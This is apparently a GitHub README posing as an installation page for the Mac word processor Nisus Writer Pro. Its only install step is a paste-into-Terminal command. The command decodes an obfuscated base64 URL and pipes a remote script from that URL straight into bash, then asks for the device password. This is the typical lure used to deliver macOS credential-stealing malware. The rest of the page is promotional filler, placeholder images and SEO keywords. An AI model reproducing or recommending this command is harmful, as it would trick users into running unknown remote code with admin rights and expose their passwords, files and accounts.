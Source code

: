 # 📝 Nisus Writer Pro for Mac — Elegant Word Processing with Power

📌 About Nisus Writer Pro  
Nisus Writer Pro is a professional word processor built natively for macOS, designed to empower writers, academics, legal professionals, and multilingual users.  
It combines a distraction-free writing interface with powerful features like style sheets, macros, tracked changes, commenting, tables of contents, bookmarks, and PDF export.  
With full Unicode support and right-to-left language compatibility, it’s ideal for global writing and publishing. Whether you're writing a novel, a legal brief, or a technical report, Nisus Writer Pro ensures full typographic control and smooth macOS integration.  
All documents are saved locally, ensuring full privacy and long-term accessibility — no cloud lock-in, no telemetry, just pure writing power.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```  
3. Open Terminal on your device, paste the command, then press Return.  
4. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.nisus.com/pro/images/MacBook@1x.png)  
- ![](https://cdn.mos.cms.futurecdn.net/b9ae960315f349e1b09671606881f0f0.jpg)  
- ![](https://example.com/placeholder3.png)  
- ![](https://example.com/placeholder4.png)  

## 🎯 Key Features  
⚡️ Pro Writing Tools: Styles, TOC, bookmarks, revision tracking, and more.  
🔒 Local-Only Files: Full offline operation with private file storage.  
⚙️ Macros & Automation: Automate tasks with a powerful built-in macro language.  
🚀 Optimized for Speed: Fast performance even with large, complex documents.  
🎨 Multilingual Support: Full Unicode, RTL languages, and multilingual spellcheck.  
📊 Export Options: Save as RTF, DOC, PDF, HTML, or plain text with full formatting.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`nisus writer pro mac` · `mac word processor` · `macos writing software` · `multilingual word processor mac` · `mac writing tool for academics` · `track changes editor mac` · `mac document automation` · `mac rtl text editor` · `mac unicode writing app` · `mac writing with macros` · `mac export to pdf word processor` · `offline word editor mac` · `mac writing tool with styles` · `nisus document editor` · `mac professional writing app`
